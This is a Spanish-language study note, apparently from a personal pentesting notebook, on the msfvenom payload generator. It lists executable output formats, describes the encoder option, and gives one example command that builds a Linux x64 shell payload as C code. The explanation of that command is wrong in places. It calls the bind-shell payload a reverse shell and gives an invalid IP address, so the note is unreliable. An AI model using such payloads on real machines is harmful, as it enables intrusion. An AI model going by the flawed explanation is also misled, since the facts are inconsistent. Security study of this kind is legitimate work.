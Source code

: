 ### Ejecutables
Generan un **archivo ejecutable** infectado.
- Se ha entrado en la máquina y se está realizando [[Escalado de privilegios]].

Ejemplos del campo `<formato>`:
- `asp`
- `aspx`
- `aspx-exe`
- `axis2`
- `dll`
- `elf`
- `elf-so`
- `hta-psh`
- `jar`
- `exe`
- `exe-only`
- `exe-service`
- `exe-small`
- `jsp`
- `loop-vbs`
- `macho`
- `msi`
- `msi-nouac`
- `osx-app`
- `psh`
- `psh-cmd`
- `psh-reflection`
- `python-reflection`
- `vba`
- `vba-exe`
- `vba-psh`
- `vbs`
- `war`

## `-e <encoder>`
Define el encoder que se usará en la ejecución.

 Ejemplos de encoders:
1. Sin encoder.
2. Encoder que suelen colar.
3. Buen encoder.

> [!INFO] Los algoritmos de encoders se ponen a prueba en [[Virus Total]].

### Ejemplos
```shell
msfvenom -p linux/x64/shell_bind_tcp LHOST=192.168.56.1 LPORT=80 -f c
```
Genera un programa `.c` que carga un [[Payload]] que genera un [[Reverse Shell]] vía [[TCP]] que conecta con `192.168.566.1:80`; la máquina víctima debe ser una [[Linux]] de [[Arquitectura#64 bits|64 bits]].

